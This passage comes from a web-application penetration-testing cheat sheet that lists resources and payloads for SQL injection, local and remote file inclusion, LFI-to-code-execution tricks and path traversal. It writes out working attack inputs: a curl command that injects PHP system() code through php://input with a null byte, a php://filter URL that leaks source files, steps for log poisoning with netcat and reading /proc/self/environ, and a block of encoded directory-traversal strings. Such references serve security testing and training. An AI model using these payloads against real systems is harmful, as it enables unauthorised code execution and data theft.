 **Language Specific**

- PHP
  - Good example from DOCs, where parameterization is not used: 
    - <http://php.net/manual/en/mysqli.examples-basic.php> (use: <https://phptherightway.com/>)

**Practice**

- <https://github.com/Audi-1/sqli-labs>

### LFI / RFI

- Universal LFI for Windows + PHP (using phpinfo): <https://rdot.org/forum/showthread.php?t=1134>
- PHP LFI to arbitrary code execution via rfc1867 file upload temporary files 

**Payloads**

- including uploaded files
- include data:// or php://input, php://filter pseudo protocol
- including logs
- including /proc/self/environ
- include session files - (usually names /tmp/sess_SESSIONID)
- include other files created by PHP application
- `C:\Windows\Temp\php<16-bit-random>.TMP` without bruteforce can do  `inc=C:\Windows\Temp\php<<`

**LFI to RCE**

- RCE with TXT upload
  - Expose .txt file and use a vulnerable `include` to include the txt file into code (evil.txt.php).
  - PHP config can be used to disable URL file access. But still local files can be accessed (allow_url_fopen / allow_url_include)
- RCE with Logs
  - Use NC to write logs with malicious content to access_logs.
  - Connect and just send the attack string (In user-agent etc.).
  - Then include the log file (local file inclusion)
- RCE over SQLi
  - Return <?php echo "test"?> from SQL and see results to check if RCE is possible over SQLi

**PHP Wrappers**

- File upload with POST data
  - `curl -s --data "<?system('ls -la');?>" "http://target.host/web.php?file_path=php://input%00"`
- Base64 encode the LFI
  - `http://X.X.X.X/?page=php://filter/convert.base64-encode/resource=(PHP FILE NAME NO EXTENSION)`

### Path Traversal

**Payloads**

```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
```
### Server Side Template Injection (SSTI)
